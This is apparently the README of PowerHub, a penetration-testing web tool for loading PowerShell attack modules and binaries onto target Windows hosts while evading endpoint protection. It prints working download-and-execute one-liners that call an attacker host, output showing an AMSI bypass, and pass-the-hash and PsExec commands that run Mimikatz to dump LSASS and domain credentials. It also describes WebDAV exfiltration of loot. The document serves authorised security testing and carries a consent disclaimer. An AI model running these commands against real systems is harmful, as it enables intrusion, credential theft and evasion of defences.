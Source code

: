 PowerHub
========

PowerHub is a web application which aids a pentester in transferring files,
in particular code which may get flagged by endpoint protection.

![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-webapp.png)

During an engagement where you have a test client available, one of the
first things you want to do is run PowerSploit. So you need to download the
files, messing with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet. PowerHub also helps with collaboration
in case you're a small team.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```
PS C:\Users\avollmer> $K=new-object net.webclient;$K.proxy=[Net.WebRequest]::GetSystemWebProxy();$K.Proxy.Credent
ials=[Net.CredentialCache]::DefaultCredentials;IEX $K.downloadstring('http://192.168.11.2:8000/0');
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
                            written by Adrian Vollmer, 2018-2019
Run 'Help-PowerHub' for help
AmsiScanBuffer patch has been applied.
0
PS C:\Users\avollmer> lhm powerview
[*] /ps1/PowerSploit/Recon/PowerView.ps1 imported.
PS C:\Users\avollmer> Get-LocalGroup | ConvertTo-Json | Out-file groups.json
PS C:\Users\avollmer> pth groups.json
```

![PowerHub in action](https://github.com/AdrianVollmer/PowerHub/blob/master/img/inaction.png)

How it works
============

The web application is made with Flask and consists of three parts.

The Hub
-------

The hub uses PowerShell to load modules and binaries in memory. The binaries
can be executed directly from memory with
[PowerSploit's](https://github.com/PowerShellMafia/PowerSploit)
`Invoke-ReflectivePEInjection`.

Modules have to be placed in `./modules` and can be either PowerShell
scripts, PE executables, or shell code. You can load them on the target via
PowerShell with `Load-HubModule`. Run `Help-PowerHub` for more information.

PowerHub on the attacker system simply looks for `*.ps1` or `*.exe` files.
They need to be in their respective directory, though, so `exe` files need
to be in `modules/exe` (or at least symlinked), and so forth. The `*.ps1`
files are imported on the target via `[Scriptblock]::Create()`.

A simple interface to install modules is provided for your convenience.

The Clipboard
-------------

The clipboard functionality is meant for exchanging small snippets, such as
hashes, passwords, one-liners, and so forth. It's like an extremely basic
[Etherpad](https://etherpad.org/) or a guest book, but non-persistent.

The File Exchange
-----------------

The file exchange offers a way to transfer files via HTTP back to the host.
Think [Droopy](https://github.com/stackp/Droopy).

If you have the necessary Python modules installed, a WebDAV service is also
started. You can mount it on the target as a network drive (default S:). It
allows for anonymous login and it contains three folders:

* `public` with read/write access for everyone
* `ro` with *read only* access for everyone -- maybe you can bypass a weak
  anti virus with this
* `blackhole` for dropping sensitive data. Any file placed here via WebDAV
  will immediately be moved to the `blackhole` directory in the script's
  root directory.

Usage
=====

PowerHub has two mandatory arguments: the first is the callback host (can be
an IP address) and the second is either `--auth <user>:<pass>` or
`--no-auth`. The latter disables basic authentication which is *not
recommended*. This host name is used by the stager to download the payload.
If the callback port or path differ from the default, it can also be
changed.

Read `./powerhub.py --help` for details.

Examples
========

One nice application is, for example, the case where you have obtained some
local administrator password hash and want to move laterally. This dumps the
LSASS creds with Mimikatz via Impacket's `wmiexec.py`, tricking many
endpoint protection tools:

```
wmiexec.py -hashes :deadbeef0000000000000000deadbeef \
    ./administrator@10.0.1.4  \
    'powershell -c "$K=new-object net.webclient;IEX $K.downloadstring(\"http://10.0.100.13:8000/0\"); Load-Hubmodule Mimikatz ; Invoke-Mimikatz -DumpCreds "'
```

Or similarly, if you obtained the `krbtgt` hash and created a golden ticket
which you injected with Mimikatz. Then you can get the NTLM hash of any
arbitrary user in the forest:

```
PS C:\Users\pentestuser> .\PsExec64.exe \\DC01.acme.local -s powershell -c '$K=new-object net.webclient;IEX $K.downloadstring(\"http://192.168.1.5:8000/0\");load-hubmodule mimikatz; Invoke-Mimikatz -Command ''\"lsadump::lsa /inject /name:adm_targetuser\"'''
```

Getting the escape sequence on the quotes right can be tough...

Author
======

Adrian Vollmer, 2018-2019

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
